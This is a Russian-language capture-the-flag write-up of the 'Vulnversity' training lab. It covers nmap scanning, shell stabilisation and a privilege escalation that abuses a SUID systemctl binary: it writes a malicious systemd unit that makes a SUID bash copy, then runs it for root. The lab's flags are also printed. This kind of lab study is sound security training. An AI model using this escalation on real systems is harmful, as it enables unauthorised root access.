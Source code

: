 # VulnHub - Vulnversity

📅 Дата: 2025-07-01  
🧠 Сложность:  easy  
💻 IP-адрес: 10.10.249.11  

---

## 🔍 Сканирование

```bash
export ip=10.10.249.11
export ports=$(sudo nmap -sS -p- $ip | grep -oP "^[0-9]+(?=/tcp\s+open)" | sort -n | paste -sd ",")
sudo nmap -sT -Pn -sV -T4 -A -p $ports $ip -oN scans/nmap.txt
```

🖼️ Nmap скан:

![nmap scan](screenshots/nmap_scan.png)

---

## 🕵️ Enumeration



## 📂 Получение доступа

Стабилизация
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```


## ⚙️ Привилегии

SUID find
```bash
www-data@ip-10-10-249-11:/tmp$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/mount
/bin/umount
/bin/systemctl
...
```
### /bin/systemctl

**1. Создание временного .service-файла**
```bash
TF=$(mktemp).service
```
 - mktemp создаёт уникальный временный файл (например, /tmp/tmp.ABCD1234).
 - Добавляется .service, чтобы systemd воспринимал его как юнит.

**2. Построчная запись вредоносного юнита systemd**
```bash
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cp /bin/bash /tmp/root; chmod +xs /tmp/root"
[Install]
WantedBy=multi-user.target' > $TF
```
 - [Service] – секция, определяющая сервис.
   - Type=oneshot – означает, что сервис выполнится один раз и завершится (не демонизируется).
   - ExecStart=... – команда, которая выполнится при старте сервиса. В данном случае:
     - cp /bin/bash /tmp/root – копирует /bin/bash в /tmp/root.
     - chmod +xs /tmp/root – добавляет SUID-бит (+s), чтобы /tmp/root запускался с правами владельца (root).
 - [Install] – секция, указывающая, когда сервис должен запускаться.
   - WantedBy=multi-user.target – сервис будет активирован при загрузке системы в многопользовательском режиме.

**3. Связывание сервиса с systemd**
```bash
systemctl link $TF
```
 - systemctl link создаёт символическую ссылку из /etc/systemd/system/ на временный файл.
 - Теперь systemd "видит" этот сервис и может им управлять.

**4. Активация сервиса (моментальный запуск)**
```bash
systemctl enable --now $TF
```
 - enable – добавляет сервис в автозагрузку (создаёт симлинк в /etc/systemd/system/multi-user.target.wants/).
 - --now – сразу запускает сервис (выполняет ExecStart).

**Что происходит?**
Systemd (работающий от root) выполняет команду:
```bash
/bin/sh -c "cp /bin/bash /tmp/root; chmod +xs /tmp/root"
```
В /tmp/ появляется файл root – это копия /bin/bash с SUID-битом.

**5. Запуск SUID-баша с правами root**
```bash
/tmp/root -p
```
 - **-p** – сохраняет привилегии (иначе bash сбрасывает SUID).


## 🏁 Флаги

- User flag: 8bd7992fbe8a6ad22a63361004cfcedb
- Root flag: a58ff8579f0a9270368d33a9966c7fd5

---

